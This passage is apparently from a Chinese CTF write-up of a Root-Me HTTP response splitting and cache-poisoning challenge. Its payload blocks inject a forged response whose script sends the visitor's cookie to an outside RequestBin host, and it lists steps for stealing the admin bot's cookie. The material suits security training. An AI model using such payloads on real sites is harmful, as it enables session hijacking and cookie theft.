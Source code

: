 
------------


回到前面的 `[注入点]` ，根据我们期望的响应内容，将其转换成 URL 编码，因此在 `[注入点]` 的位置构造 payload 应该是这样的：

```html
%0D%0AContent-%20Length%3A%200
%0D%0A
%0D%0AHTTP%2F1.1%20200%20OK
%0D%0AContent-Type%3A%20text%2Fhtml
%0D%0AX-XSS-Protection%3A%200
%0D%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202099%2012%3A00%3A00%20GMT%20
%0D%0AContent-Length%3A%20137
%0D%0A
%0D%0A%3cscript%3edocument.write(%22%3ch1%3eEXP%3c%2fh1%3e%3cimg%20src%3dhttp%3a%2f%2frequestbin.fullcontact.com%2f148xfw11%3f%22.concat(document.cookie).concat(%22%20%2f%3e%22))%3c%2fscript%3e
```

我们把每部分拼接起来，<font color="red">**最终的 payload 请求**</font> 是这样的：

```html
http://challenge01.root-me.org:58002/user/param?lang=fr%0D%0AContent-%20Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0AX-XSS-Protection%3A%200%0D%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202099%2012%3A00%3A00%20GMT%20%0D%0AContent-Length%3A%20137%0D%0A%0D%0A%3cscript%3edocument.write(%22%3ch1%3eEXP%3c%2fh1%3e%3cimg%20src%3dhttp%3a%2f%2frequestbin.fullcontact.com%2f148xfw11%3f%22.concat(document.cookie).concat(%22%20%2f%3e%22))%3c%2fscript%3e
```

现在尝试通过 Burp 把 payload 发送到服务器，看看效果如何：

![](http://exp-blog.com/wp-content/uploads/2019/02/45743aea122ae7c2bc474c0416d1f830.png)

------------

## 发起攻击

既然拥有 payload 就可以发起攻击了，步骤其实很简单，前面也已经说过了：

- (1) 提交前面的 payload 请求
- (2) 马上访问 [http://challenge01.root-me.org:58002/admin](http://challenge01.root-me.org:58002/admin) 页面，如果返回的是我们构造的 payload 响应页面，则污染缓存成功
- (3) 登录 payload 响应页面中预设的 [RequestBin](http://requestbin.fullcontact.com) 服务器等待管理员 Cookie

------------

## 攻击过程的细节

事实上，攻击过程并没有我们想象中顺利，这是这题最恶心的地方，尤其是在不知道自己的 payload 是否正确的前提下，真的能调试到你怀疑人设。

总结一下，我遇到的细节问题有以下这些：

- 经测试无法使用 Burp 发起缓存污染攻击，原因不明。
- 只有 IE 或 Edge 浏览器可以用来执行这个挑战，且要求 IE 或 Edge 关闭所有安全选项。
- 发起 payload 请求后，服务器默认的第一个响应是一个 302 页面，跳转的 `Location` 是 `/home` 页面。由于其跳转速度非常快，导致我们尝试使用 `/admin` 请求绑定我们构造的第二个 payload 响应前，就很可能被 `/home` 请求抢先一步绑定了 payload 响应（**换言之可供我们操作的时间可能还不到 1 秒**）。
- Robot 管理员只会扫描 `/admin` 页面，如果被 `/home` 抢先一步绑定了第二个 payload 响应，那么我们构造的 payload 就无法窃取管理员 Cookie 。亦即第一个响应的 302 跳转目的之一是拦截我们的污染缓存攻击。
- Robot 管理员的行为不可预见，亦即它在访问 `/admin` 页面时，会不会读取图片、有没有启用 JS 脚本等都是未知的，我们需要逐个 html 标签进行注入调试。
- 由于这个挑战是运行在沙盒的，这个沙盒会对每个新的挑战 Cookie 分配一个 SessionId 。因此若某一次污染缓存失败或窃取 Cookie 失败，就需要重新领取一个新的 SessionId 进行调试。而在 Burp 无法使用的情况下，要获取新的 SessionId 只有一个方法，重置挑战环境参数：注销 rootme 的登陆，清除浏览器 Cookie 和缓存，然后重登 rootme 再重开挑战。
- 反向代理缓存的过期时间是 15 分钟，亦即在绑定 `/admin` 与 payload 响应失败后，要么等 15 分钟再试，要么重置挑战环境参数（这个是真的烦，繁琐的重置步骤能重置到吐血）。
- 由于这是一个沙盒，且 Robot 管理员是通过 SessionId 区分每个用户的挑战环境的，因此可以考虑通过代码并行操作来提高污染缓存的成功率。
- Chrome 和 Firefox 浏览器因自身的安全机制，是无法某些渗透攻击的，包括这个挑战在内。因为这个挑战的 payload 会不断用到重定向，导致多试几次就会报错并拦截攻击：
![](http://exp-blog.com/wp-content/uploads/2019/02/277b2bd69525399c144631405d430fd5.png)
